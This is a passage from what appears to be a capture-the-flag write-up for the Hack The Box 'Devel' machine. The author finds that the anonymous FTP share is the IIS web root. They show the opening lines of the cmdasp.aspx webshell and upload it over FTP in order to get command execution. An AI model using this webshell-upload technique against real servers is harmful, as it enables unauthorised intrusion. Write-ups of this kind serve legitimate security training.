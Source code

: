 Checking the web server just shows the default windows IIS page
![image](https://user-images.githubusercontent.com/113513376/213595644-c4fc3e2f-b5d9-4d1f-a66a-0a75cc985ed0.png)

And the files in the ftp is the same as the file on the web server 

Meaning the web root directory is the ftp server directory

To confirm i'll try navigating to the file i put on the ftp server which is write.html
![image](https://user-images.githubusercontent.com/113513376/213595759-9a769047-d6b2-487c-9f55-6064a7d8e62d.png)

So now next thing to do is to get a shell via this

Since this is a windows server the executable it can run will be .aspx

To confirm i'll check wappalyzer for the web framework
![image](https://user-images.githubusercontent.com/113513376/213595888-61913ec6-965a-4c83-86fa-1f132002c83b.png)

So now lets upload a .aspx code execution file

```
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ ls /usr/share/webshells/aspx/cmdasp.aspx          
/usr/share/webshells/aspx/cmdasp.aspx
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ less cmdasp.aspx                        
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ head cmdasp.aspx 
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ 
```

So I'll put the file on the ftp server and access it via the web server

```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:mark): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
pftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49165|)
125 Data connection already open; Transfer starting.
100% |***********************************************************|  1442       27.50 MiB/s    --:-- ETA
226 Transfer complete.
```